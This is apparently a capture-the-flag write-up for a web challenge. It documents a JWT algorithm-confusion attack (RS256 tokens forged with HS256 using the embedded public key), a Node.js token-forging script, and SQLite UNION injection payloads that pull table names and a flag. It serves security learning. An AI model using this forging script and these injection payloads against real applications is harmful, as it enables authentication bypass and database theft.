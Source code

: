 # Under Construction

## Keynotes

* JWT structure
* Manual SQL Injection

## Tracking

1. Downloaded the code and looked through it

2. Observed that SQL injection is possible in the 'get' DBHelper script because the username is inserted directly, without prepared statements

3. Tried to bypass this for a while by computing SQL injections and register them as usernames, but found out that, somehow, it doesn't work

4. Replicated the environment locally and tried to see what happens with the username

5. Observed that the reason why the injection doesn't work is because, before the JWT used for authentication is composed, the ' characters in the username are duplicated before being written into the JWT payload - thus, when accessing a protected route, the injection will be escaped in the 'get' method in DBHelper

6. After login, the JWT is accessible in a cookie - I analyzed it and observed that, besides the username, it also contains a public key - probably the pair of the private key that was used on signing

6. Based on that and on some small hints from HTB forum, I started investigating how the JWTs are generated and observed that, though they are generated only with RS256, thus signed with a private key and verified with a public key, the 'decode' method, which actually verifies the validity of the JWT, also accepted HS256

7. Unlike RS256, HS256 uses one secret key for both signing and verifying - thus, using the public key that I just got from the JWT itself, I figured out that I can create my own legit JWT

8. Created a small js script to do that, reusing methods from the downloaded source

```js
const fs = require('fs');

// the public key extracted from a legit JWT
const publicKey = fs.readFileSync('./public.key', 'utf8');

const jwt = require('jsonwebtoken');

async function sign(data) {
    data = Object.assign(data, { pk: publicKey });

    const result = await jwt.sign(data, publicKey, { algorithm: 'HS256' });

    console.log(result);
}
```

10. Then, I started to think again about SQL injections and, embedding it in the JWT as username, I observed that, this time, I was able to execute injections.

```
sign({username: "x\' UNION SELECT id, password, username FROM users LIMIT 1 OFFSET 0;"});
```

11. I started looking up on the internet on how to create injections for SQLite, and, after a couple of tries, I've come up with some working injections

12. First I found the `flag_storage` table

```
sign({username: "x\' UNION SELECT 1, name, 3 FROM sqlite_master WHERE type \'table\' AND name NOT LIKE \'sqlite_%\' LIMIT 1 OFFSET 0;"});
```

13. Then I found the `top_secret_flaag` column inside it

```
sign({username: "x\' UNION SELECT 1, name, 2 FROM PRAGMA_TABLE_INFO(\'flag_storage\') LIMIT 1 OFFSET 1;"});
```

14. Extracted the flag from the db

```
sign({username: "x\' UNION SELECT 1, top_secret_flaag, 3 FROM flag_storage LIMIT 1 OFFSET 0;"});
```
